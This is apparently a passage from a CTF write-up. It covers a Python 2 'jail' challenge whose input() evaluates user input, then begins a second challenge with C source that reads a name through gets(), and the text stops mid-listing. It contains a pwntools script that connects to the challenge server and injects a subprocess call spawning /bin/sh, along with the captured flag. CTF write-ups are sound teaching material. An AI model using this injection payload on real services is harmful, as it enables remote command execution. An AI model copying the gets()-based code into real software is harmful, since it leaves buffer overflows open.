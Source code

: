 ```python
import sys
print ("Hello user! I will give you a test. If you pass it, you get the flag\n")
print ("What is 2 + 3? ")
sys.stdout.flush()
x = input()

if (x == 5):
    print("Eh, I was just kidding. No flag for you")
else:
    print("Try again!")
```

Python `input` function has vulnerability.

If I use this vulnerability, I can execute any command. 

This is easy `python-jail-break` problem, no filtering.

So, I can find `python-jail-cheatsheet` in google, and I use it.

### Exploit

```python
from pwn import *

#context.log_level = "debug"
r = remote("89.38.208.144", 11113)
command = "__import__('subpro'+'cess').call(['/bin/sh', '-s'])"
r.sendlineafter("? \n",command)
r.interactive()
```

**FLAG : `TIMCTF{h1ss_h1ss_shell}`**

<br />

## Swag (100pts) ![](https://user-images.githubusercontent.com/32904385/65112572-156dcb80-da1b-11e9-8133-e348ea7ecc6b.png)

> The server only lets hackers in, not script kiddies.
>
> nc 89.38.208.144 11111

First, I see `swag.cpp`

```C
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

using namespace std;

int global_cookie;
int main()
{
	char name[64];
	int cookie;
	int a;
	srand(time(0));
	cookie = rand();
	global_cookie = cookie;
	a = 2;
	printf("Enter your name: ");
	fflush(stdout);
	gets(name);
	printf("Hello, %s", name);
```